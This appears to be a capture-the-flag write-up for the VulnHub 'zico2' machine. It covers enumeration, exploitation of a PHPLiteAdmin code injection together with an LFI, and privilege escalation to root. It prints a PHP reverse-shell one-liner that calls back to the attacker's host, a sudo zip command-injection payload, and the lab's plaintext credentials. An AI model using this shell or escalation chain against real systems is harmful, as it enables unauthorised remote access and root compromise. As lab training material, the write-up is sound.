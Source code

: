 # BOX NAME: zico2
**LINK**:  https://www.vulnhub.com/entry/zico2-1,210/#download

<details open><summary><ins>SUMMARY</ins></summary>

```
1. Enumerate box to find a phpliteadmin interface. Find a exploit to this application
2. run a reverse shell via a newly created DB. First you need to find it via LFI.
3. Enumerate box to find credentials in database-file.
4. Pivot to zico-user. User may run few commands as root.
5. GTFO-bin.

This box was fun and pretty easy. Took me roughly an hour to compromise the box, get root, and do this writeup. I was messing around with the SQL-query to get the rev-shell to work.
Otherwise, pretty cool box.

```
</details>

# REMOTE ENUMERATION:

<details><summary><ins>TARGET</ins></summary>

```
[+] IP:		10.77.0.77
[+] URL:	http://zico.com
```
</details>
<details><summary><ins>NMAP</ins></summary>

```
└─$ nmap -sV -p- $IP -oN nmap-zico.log
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-06 21:16 CEST
Nmap scan report for zico.com (10.77.0.77)
Host is up (0.00058s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
111/tcp   open  rpcbind 2-4 (RPC #100000)
49524/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.18 seconds

```
</details>
<details><summary><ins>WEB</ins></summary>

whatweb-scan
```
http://zico.com [200 OK] Apache[2.2.22], Bootstrap, Country[RESERVED][ZZ], Email[feedback@startbootstrap.com,your-email@your-domain.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.77.0.77], JQuery, Script, Title[Zico's Shop], X-UA-Compatible[IE=edge]

```

nikto-scan
```
└─$ nikto -h $IP | tee nikto-zico.log
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.77.0.77
+ Target Hostname:    10.77.0.77
+ Target Port:        80
+ Start Time:         2023-06-06 21:17:09 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ /: Server may leak inodes via ETags, header found with file /, inode: 3803593, size: 7970, mtime: Thu Jun  8 21:18:30 2017. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /index: Uncommon header 'tcn' found, with contents: list.
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: index.html. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, GET, HEAD .
+ /css/: Directory indexing found.
+ /css/: This might be interesting.
+ /img/: Directory indexing found.
+ /img/: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /view.php?ariadne=http://blog.cirt.net/rfiinc.txt?: Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.26.
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ /README.md: Readme Found.
+ 8881 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2023-06-06 21:17:31 (GMT2) (22 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

fuzzing
```
/dbadmin/test_db.php - default password = ADMIN -->> PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | php/webapps/24044.txt

```
other
```

```

</details>

<details><summary><ins>SERVICES</ins></summary>

FTP
```

```

SSH
```

```

SNMP
```

```

DNS
```

```

MAILSERVICES (POP, IMAP, SMTP)
```

```

LDAP
```

```

</details>

<details><summary><ins>Active Directory</ins></summary>

Active Directory
```

```
</details>

<details><summary><ins>SUMMARY REMOTE</ins></summary>

```
1. Locate the phpliteadmin interface -> create a database with phpcode named hack.php
	<?php $sock=fsockopen("10.77.0.35",443);$proc=proc_open("/bin/sh -i", array(0=>$sock,1=>$sock,2=>$sock),$pipes); ?>
2. Locate newly created database. There's and LFI on view.php.
3. Get reverse shell.
```
</details>

# LOCAL ENUMERATION:

<details><summary><ins>FILES OF INTEREST</ins></summary>

**FILES**:
```
/etc
--> 4.0K drwxr-s---  2 root dip    4.0K Jun  1  2017 chatscripts

/usr:
total 72K
4.0K drwxrwxrwx  2 root root 4.0K Jun  6 20:19 databases

www-data@zico:/home/zico$ cat to_do.txt
try list:
- joomla
- bootstrap (+phpliteadmin)
- wordpress


```

**SUID's**:

```
www-data@zico:/var$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/pppd
/usr/sbin/uuidd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/mtr
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/sudoedit
/usr/bin/at
/sbin/mount.nfs
/bin/fusermount
/bin/umount
/bin/ping6
/bin/su
/bin/mount
/bin/ping

```
**SGID's**:

```
www-data@zico:/var$ find / -perm -g=s -type f 2>/dev/null
/usr/sbin/uuidd
/usr/bin/bsd-write
/usr/bin/crontab
/usr/bin/mlocate
/usr/bin/mail-touchlock
/usr/bin/dotlockfile
/usr/bin/wall
/usr/bin/ssh-agent
/usr/bin/mail-lock
/usr/bin/mail-unlock
/usr/bin/expiry
/usr/bin/chage
/usr/bin/at
/sbin/unix_chkpwd

```
**OTHERS**:

```
define('DB_NAME', 'zico');
define('DB_USER', 'zico');
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');
define('DB_HOST', 'zico');
define('DB_CHARSET', 'utf8');
define('DB_COLLATE', '');


zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip

```
</details>


# LOOT

<details><summary><ins>USEFUL INFORMATION:</ins></summary>

**Kernel Info:**
*file /bin/bash ; echo -e " \\n" && lsb_release -a ; echo -e "\\n" && uname -a*
```
/bin/bash: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x22aaca9f1cf671f1833596d2d3a06c99176d9d33, stripped
 

No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 12.04.5 LTS
Release:        12.04
Codename:       precise


Linux zico 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux

```
</details>

<details><summary><ins>CREDS:</ins></summary>

```
username:password
phpliteadmin:admin
zico:zico2215@
root:34kroot34
```
</details>

<details><summary><ins>HASHES:</ins></summary>

```
653F4B285089453FE00E2AAFAC573414:zico2215@
653F4B285089453FE00E2AAFAC573414:34kroot34
```
</details>

# PROOFS

<details><summary><ins>Proofs</ins></summary>

Final payload:
```
zico@zico:~$ sudo zip anything /etc/hosts -T -TT 'sh #'
```

```
# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
# 
# Hope you enjoyed! 
# 
# 
#
#
```

</details>